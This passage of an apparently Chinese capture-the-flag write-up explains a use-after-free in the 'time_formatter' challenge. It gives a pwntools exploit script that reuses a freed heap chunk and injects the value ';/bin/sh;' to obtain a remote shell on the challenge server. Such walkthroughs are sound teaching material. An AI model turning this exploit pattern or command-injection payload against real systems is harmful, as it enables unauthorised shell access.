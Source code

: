所以line 8-9释放了ptr和value两个指针。也就是说，当我们执行case 5后选择n就可以触发UAF漏洞。而ptr的值是在case 1中分配的，value是在case 3中分配的。

ptr被释放，所指向的地址存入了fastbin。此时我们再执行case 3就会把刚放进fastbin的地址给value，此时ptr和value都指向同一个地址。case 1对输入有限制，case 3没有限制，我们就成功利用UAF使ptr包含了 shellcode。

exp如下：

```python
# coding=utf-8
from pwn import *
context.log_level = 'debug'
# io = process('./time_formatter')
io =remote('220.249.52.133',38913)
#为ptr分配堆储存空间
io.recvuntil('> ')
io.sendline('1')
io.recvuntil('Format: ')
io.sendline('aaa')
# 释放ptr中的堆空间
io.recvuntil('> ')
io.sendline('5')
io.recvuntil('Are you sure you want to exit (y/N)?')
io.sendline('N')
# 为value分配堆，此时分配到的就是刚放入fastbin的地址
#写入shellcode
io.recvuntil('> ')
io.sendline('3')
io.recvuntil('Time zone: ')
io.sendline('\';/bin/sh;\'')
#利用命令注入拿shell
io.recvuntil('> ')
io.sendline('4')
print("shell")
io.interactive()
```

